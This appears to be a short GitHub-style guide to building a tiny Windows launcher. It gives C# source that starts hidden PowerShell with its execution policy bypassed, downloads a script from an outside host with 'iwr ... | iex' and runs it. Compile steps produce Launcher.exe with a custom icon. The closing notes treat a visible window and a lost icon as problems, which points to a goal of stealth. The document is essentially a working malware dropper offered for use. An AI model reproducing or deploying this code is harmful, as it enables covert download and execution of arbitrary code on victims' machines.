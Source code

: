 - Smallest exe possible

```
using System;
using System.Diagnostics;

namespace PowerShellRunner
{
    class Program
    {
        static void Main(string[] args)
        {
            // PowerShell script to execute
            string script = @"
                iwr x.rmtx.pro/x | iex
            ";

            // Create process start info
            ProcessStartInfo psi = new ProcessStartInfo
            {
                FileName = "powershell.exe",
                Arguments = "-ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command \"" + script + "\"",
                CreateNoWindow = true, // Hide the window
                UseShellExecute = false
            };

            // Start the process
            Process.Start(psi);
        }
    }
}
```

##  Compile with csc.exe
- Add csc to the path 
```
[Environment]::SetEnvironmentVariable("Path", "C:\Windows\Microsoft.NET\Framework\v4.0.30319;$env:Path", "Machine")
```

## Compile the code

```
csc /target:exe /out:Launcher.exe /win32icon:Icon.ico Launcher.cs
```

## Issues with this method

- [Terminal Window Pops Up]
- [Does not keep the Icon]

